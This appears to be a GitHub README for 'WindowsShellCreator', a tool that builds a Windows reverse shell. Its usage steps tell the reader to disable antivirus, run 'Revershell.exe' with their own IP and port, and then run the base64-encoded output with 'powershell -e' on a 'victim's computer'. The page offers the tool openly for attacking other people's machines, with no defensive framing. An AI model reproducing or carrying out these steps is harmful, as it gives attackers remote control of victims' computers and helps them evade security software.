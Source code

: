 # WindowsShellCreator
### (Stable Release)

## How to Use ?
1. Disable AntiVirus Software
2. Download Zip File 
3. Extract File
4. Open CMD or Powershell as Administrator 
5. type "Revershell.exe -H 'your device ip' -p 'Choose your port number' -b64 'y/n'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

## How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type ``` powershell -e ``` and paste the copied base64 script [e.g. ```` powershell -e 'base64encode here' ````]
